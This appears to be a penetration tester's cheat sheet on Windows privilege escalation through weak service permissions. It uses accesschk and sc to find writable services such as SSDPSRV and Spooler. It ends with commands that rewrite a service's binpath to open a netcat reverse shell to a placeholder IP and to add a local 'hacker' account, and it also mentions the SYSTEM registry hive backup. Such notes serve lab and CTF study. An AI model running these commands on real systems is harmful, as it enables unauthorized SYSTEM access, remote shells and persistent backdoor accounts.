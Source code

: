 %SYSTEMROOT%\System32\config\RegBack\system

#### Accesschk

http://www.fuzzysecurity.com/tutorials/16.html

http://averma82.blogspot.ca/2013/11/enable-remote-desktop-from-command-line.html


Steps

get the correct executable accesschk.exe make the executable chmod +x file

upload the file with whatever method you can, examples are davtest, ftp, tftp, 

```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```


#### start enumerating stuff with accesschk remember to /accepteula

These Windows services are started:

net start *service*

net stop *service*

#### look for read or writeable services by authenticated users

accesschk.exe -uwcqv "Authenticated Users" *  /accepteula

#### look for read or writeable files

accesschk.exe -uwqs users c:\*.* /accepteula

#### look at service permissions

accesschk.exe -ucqv Spooler /accepteula

accesschk.exe -ucqv SSDPSRV /accepteula

accesschk.exe -ucqv upnphost /accepteula

#### look for service properties to modify

sc qc Spooler

sc qc SSDPSRV

sc qc upnphost

#### modify properties of services

sc config SSDPSRV binpath= "C:\Inetpub\Scripts\nc.exe -nv *ipaddress* 9988 -e C:\WINDOWS\System32\cmd.exe"

sc config SSDPSRV binpath= "net user hacker Passw0rd123! /add"

sc config SSDPSRV start ="auto"

